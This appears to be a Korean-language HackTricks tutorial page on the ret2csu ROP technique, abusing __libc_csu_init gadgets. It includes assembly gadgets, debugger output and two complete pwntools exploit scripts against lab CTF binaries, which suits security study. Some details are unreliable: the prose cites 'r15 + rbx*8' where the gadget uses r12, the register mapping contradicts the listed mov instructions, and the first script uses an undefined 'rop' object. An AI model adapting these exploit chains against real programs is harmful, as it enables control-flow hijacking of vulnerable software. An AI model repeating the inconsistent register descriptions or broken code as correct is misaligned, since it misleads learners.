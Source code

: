 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)기본 정보

**ret2csu**는 프로그램을 제어하려고 할 때 사용하는 해킹 기술로, 프로그램의 동작을 조작하는 데 일반적으로 사용하는 **gadgets**를 찾을 수 없을 때 사용됩니다.

프로그램이 특정 라이브러리(예: libc)를 사용할 때, 프로그램의 다양한 부분이 서로 통신하는 방식을 관리하기 위한 몇 가지 내장 함수가 있습니다. 이러한 함수 중에는 우리가 잃어버린 gadgets 역할을 할 수 있는 숨겨진 보석들이 있으며, 특히 `__libc_csu_init`이라는 함수가 있습니다.

### \_\_libc\_csu\_init의 마법의 Gadgets

**`__libc_csu_init`**에는 강조할 두 가지 명령어 시퀀스(gadgets)가 있습니다:

1. 첫 번째 시퀀스는 여러 레지스터(rbx, rbp, r12, r13, r14, r15)에 값을 설정할 수 있게 해줍니다. 이는 나중에 사용하고자 하는 숫자나 주소를 저장할 수 있는 슬롯과 같습니다.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
이 가젯은 스택에서 값을 꺼내 레지스터를 제어할 수 있게 해줍니다.

2. 두 번째 시퀀스는 우리가 설정한 값을 사용하여 몇 가지 작업을 수행합니다:
* **특정 값을 다른 레지스터로 이동**시켜 함수의 매개변수로 사용할 준비를 합니다.
* **r15와 rbx의 값을 더한 후 rbx에 8을 곱하여** 결정된 위치로 호출을 수행합니다.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
3. 아마도 거기에 쓸 주소를 모르고 **`ret` 명령어**가 필요할 것입니다. 두 번째 가젯도 **`ret`로 끝나지만**, 그것에 도달하기 위해서는 몇 가지 **조건**을 충족해야 합니다:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
조건은 다음과 같습니다:

* `[r12 + rbx*8]`는 호출 가능한 함수가 저장된 주소를 가리켜야 합니다 (아이디어가 없고 pie가 없다면, 그냥 `_init` 함수를 사용할 수 있습니다):
* 만약 \_init이 `0x400560`에 있다면, GEF를 사용하여 메모리에서 그것에 대한 포인터를 검색하고 `[r12 + rbx*8]`를 \_init에 대한 포인터가 있는 주소로 설정합니다:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp`와 `rbx`는 점프를 피하기 위해 동일한 값을 가져야 합니다.
* 고려해야 할 생략된 pop이 있습니다.

## RDI와 RSI

ret2csu 가젯에서 **`rdi`**와 **`rsi`**를 제어하는 또 다른 방법은 특정 오프셋에 접근하는 것입니다:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

자세한 정보는 이 페이지를 확인하세요:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## 예제

### 호출 사용

syscall을 하거나 `write()`와 같은 함수를 호출하고 싶지만 `rdx`와 `rsi` 레지스터에 특정 값이 필요하다고 가정해 보겠습니다. 일반적으로 이러한 레지스터를 직접 설정하는 가젯을 찾겠지만, 찾을 수 없습니다.

여기서 **ret2csu**가 등장합니다:

1. **레지스터 설정**: 첫 번째 매직 가젯을 사용하여 스택에서 값을 pop하여 rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), r15에 넣습니다.
2. **두 번째 가젯 사용**: 이러한 레지스터가 설정되면 두 번째 가젯을 사용합니다. 이를 통해 선택한 값을 `rdx`와 `rsi`(각각 r14와 r13에서)로 이동시켜 함수 호출을 위한 매개변수를 준비합니다. 또한 `r15`와 `rbx`를 제어하여 프로그램이 계산한 주소에 있는 함수를 호출하도록 할 수 있습니다. 이 주소는 `[r15 + rbx*8]`에 배치됩니다.

이 기술을 사용한 [**예제와 설명이 여기에 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), 그리고 이것이 사용된 최종 익스플로잇입니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
이전 익스플로잇은 **`RCE`**를 수행하기 위한 것이 아니라, **`win`**이라는 함수를 호출하기 위한 것입니다 (ROP 체인에서 `win`의 주소를 stdin에서 호출된 gets로 가져와 r15에 저장함) 세 번째 인수로 값 `0xdeadbeefcafed00d`를 사용합니다.
{% endhint %}

### 호출 우회 및 ret 도달

다음 익스플로잇은 [**이 페이지**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html)에서 추출되었으며, 여기서 **ret2csu**가 사용되지만 호출을 사용하는 대신 **비교를 우회하고 호출 후 `ret`에 도달합니다:**
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### 왜 libc를 직접 사용하지 않나요?

보통 이러한 경우는 [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/)에 취약하지만, 때때로 libc에서 직접 찾은 가젯으로 쉽게 제어할 수 있는 것보다 더 많은 매개변수를 제어해야 할 필요가 있습니다. 예를 들어, `write()` 함수는 세 개의 매개변수를 필요로 하며, **이 모든 것을 직접 설정할 수 있는 가젯을 찾는 것은 불가능할 수 있습니다**.
